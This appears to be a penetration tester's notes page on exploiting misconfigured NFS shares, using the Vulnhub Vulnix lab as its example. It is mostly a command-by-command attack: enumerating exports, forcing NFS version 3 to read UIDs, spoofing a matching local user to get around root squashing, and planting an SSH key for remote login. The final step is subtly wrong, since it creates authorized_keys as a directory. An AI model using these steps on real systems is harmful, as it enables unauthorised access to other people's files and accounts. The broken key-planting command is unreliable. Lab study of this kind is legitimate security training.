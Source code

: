 # Background
- Network File Share. 
- This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
- You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to #3, then we can get around root squashing.
  - The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
- The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

# Enumeration (Vulnhub:Vulnix)
1. Check to see what the filesystem is sharing through this service.
```
showmount -e [IP]
```
  - Note that the file directory is in the first column of this input and any Access Control Listings (ACL) is in the second column.  Generally the ACL is either a hostname or IP address that is the only one allowed to mount the NFS.  If it is neither, then it is usually a \*, which means any IP can mount the NFS directory (no ACL).
2. Create a directory location to mount the NFS file system to your box.
```
mkdir -p /[file location]/nfs
```
3. Mount the NFS to your attacker machine at the designated NFS mounting location.
```
mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
  Example
  ```
  mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
  ```
4. Try to access the NFS mount at the location you created in #2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
  - A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.
```
mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.
```
ls -ld [attacker file system NFS location from #2]
```
7. Create a new user on the attacker box with the UID and GID identified in #6.
```
groupadd --gid [GID from #6] [group name]
useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
```
8. If the NFS is a home directory of a user AND SSH is open on the target, then we can use our new access to the NFS to add our SSH public key to the home directory of the allowed user.  Then we can just SSH into the target with the user whose home directory is exposed through NFS where we just uploaded our SSH public key.
```
mkdir [attacker file system NFS location from #2]/.ssh/authorized_keys
cp ~/.ssh/id_rsa.pub [directory you created in last cmd]
ssh -i ~/.ssh/id_rsa [user name whose home directory we mounted]@[IP]
```
